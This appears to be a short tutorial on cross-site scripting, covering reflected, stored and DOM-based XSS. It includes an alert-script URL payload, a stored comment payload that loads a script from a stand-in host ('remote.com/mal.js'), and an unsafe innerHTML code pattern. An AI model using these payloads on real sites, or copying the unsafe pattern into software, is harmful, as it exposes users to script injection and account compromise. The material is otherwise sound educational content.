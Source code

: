 # Cross Site Scripting (XSS)
Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim"s browser, the attacker can fully compromise their interaction with the application.


## Types of XSS attacks
- Reflected XSS
- Stored XSS
- DOM-based XSS



### Reflected
This happens when the site receives data in a HTTP request and uses said data in the response in an unsafe way.

#### Overview
- Check if values that you control are being **reflected** in any **HTML** or **JS** code on the site.
- Find the context where the value is reflected.

#### Example
```
https://remote.com?msg=helloworld

<h1>helloworld<h1/>
```
It can be seen that the value is being reflected in the response.

An attack would look like this
```
https://remote.com?msg=<script>alert("Hello")</script>

(A pop-up window would appear saying "Hello")
```



### Stored
In this types of XSS, the site receives unsafe data from a user and stores it.

This data can and most likely will be included in HTTP responses later.

#### Example
Imagine a comment section. Any user can comment and `HTML` tags are allowed to be included in the comment.

There, a bad actor could include any `JS` code that will be executed anytime the page is requested.
```
COMMENT HERE:   <script src="http://remote.com/mal.js"></script>
```
From here on out, whenever the page is accessed, the script will be loaded.




### DOM-based
XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.          
[https://owasp.org/www-community/attacks/DOM_Based_XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS)

#### Example
```js
let search = document.getElementById("search").value;
let results = document.getElementById("results");
results.innerHTML = "Result: " + search;
```
If the attacker controls the value of the input, they can add any malicious script they want.

```
Result: "malicious script here"
```
